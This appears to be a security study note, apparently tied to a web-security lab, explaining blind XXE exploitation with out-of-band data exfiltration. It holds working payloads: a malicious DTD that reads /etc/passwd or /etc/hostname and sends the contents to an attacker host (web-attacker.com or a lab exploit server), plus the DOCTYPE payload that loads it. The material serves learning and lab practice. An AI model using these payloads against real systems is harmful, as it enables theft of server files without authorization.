 ### Exploiting blind XXE to exfiltrate data out-of-band

{% code overflow="wrap" fullWidth="true" %}
```xml
It involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD
from within the in-band XXE payload. 
# An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

This DTD carries out the following steps:
    Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
    Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity 
  called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker web server
  containing the value of the file entity within the URL query string.
    Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
    Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

#  The attacker must then host the malicious DTD on a system that they control, serving the malicious DTD like this:
http://web-attacker.com/malicious.dtd
#  Finally, the attacker must submit the following XXE payload to the vulnerable application:
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>

# NOTE: This technique might not work with some file contents, including the newline chars contained in /etc/passwd
# This is because some XML parsers fetch the URL in the external entity definition using an API that validates the
# characters that are allowed to appear within the URL. 
Sometimes, it will not be possible to exfiltrate data containing newline chars -> target /etc/hostname instead

# EXAMPLE: Exploiting blind XXE to exfiltrate data using a malicious external DTD
- Identify endpoint that sends XML data. See there are basic defenses against XXE.
- Write the following payload on the body part of the exploit server
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0a4300490371c8e78169109701e7002e.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
- Deliver the following payload on the vulnerable app
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a4300490371c8e78169109701e7002e.exploit-server.net/malicious.dtd"> %xxe;]>
- Visit exploit server access log to find the exfiltrated data
```
{% endcode %}
